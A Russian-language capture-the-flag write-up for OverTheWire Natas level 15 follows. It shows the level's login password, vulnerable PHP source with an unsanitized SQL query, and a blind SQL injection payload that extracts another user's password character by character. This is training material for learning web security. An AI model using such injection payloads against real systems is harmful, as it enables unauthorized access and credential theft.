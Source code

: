 Natas15

login: natas15
password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

1) На главной странице есть поле ввода. Можно проверить существует ли пользователь в системе введя имя пользователя. Есть возможность посмотреть исходный код (View sourcecode)
![изображение](https://user-images.githubusercontent.com/54982244/174034648-4ff8c566-c1a6-407c-979f-f4b687eca84e.png)

Если пользователь существует, вывод - This user exists. (Например username=natas16)

Если пользователь не существует то вывод - This user doesn't exist.
![изображение](https://user-images.githubusercontent.com/54982244/174035378-ae241435-705b-4c86-9984-288d951764dc.png)

2) Исходный код. В коментарие видно что таблица users к которой и формируется запрос состоит из 2 полей, username и password. Фильтрации нашего ввода нет, возможна sql инъекция, только вот и вывода нет, значит это будет слепая sql инъекия.


        <?
        /*
        CREATE TABLE `users` (
          `username` varchar(64) DEFAULT NULL,
          `password` varchar(64) DEFAULT NULL
        );
        */

        if(array_key_exists("username", $_REQUEST)) {
            $link = mysql_connect('localhost', 'natas15', '<censored>');
            mysql_select_db('natas15', $link);

            $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
            if(array_key_exists("debug", $_GET)) {
                echo "Executing query: $query<br>";
            }

            $res = mysql_query($query, $link);
            if($res) {
            if(mysql_num_rows($res) > 0) {
                echo "This user exists.<br>";
            } else {
                echo "This user doesn't exist.<br>";
            }
            } else {
                echo "Error in query.<br>";
            }

            mysql_close($link);
        } else {
        ?> 

3) В поле ввода введем такую строку - natas16" AND password LIKE BINARY 'W%';-- - по итогу наш запрос превратистя в 
    
        SELECT * from users where username="natas16" AND password LIKE BINARY 'W%';-- -
        
То есть пройдет запрос к таблице users, где username = natas16. password LIKE BINARY 'W%' вернет true только в том случае если первая буква
пароля будет равна букве W (С учетом регистра.) Если все верно и запрос в целом возвращает true, на экран выведится This user exists. 
Если нет, то есть если первая буква пароля не W, на экран выведится This user doesn't exist. И таким перебором необходимо подобрать пароль.

![изображение](https://user-images.githubusercontent.com/54982244/174038082-96f29690-132a-431c-9d0b-1398801bb5f0.png)
![изображение](https://user-images.githubusercontent.com/54982244/174038054-bbb79acd-bb43-4426-88ea-8be3dcebbdb3.png)

4) Скрипт для перебора. Таким образом скрипт посимвольно перебирает варианты пока не получит пароль.
![изображение](https://user-images.githubusercontent.com/54982244/174039199-5a16fb35-65b7-454b-92d7-a0ea9afdf216.png)
![изображение](https://user-images.githubusercontent.com/54982244/174040390-95905fa3-92e1-444c-ac1f-a4b4da6c3fc2.png)



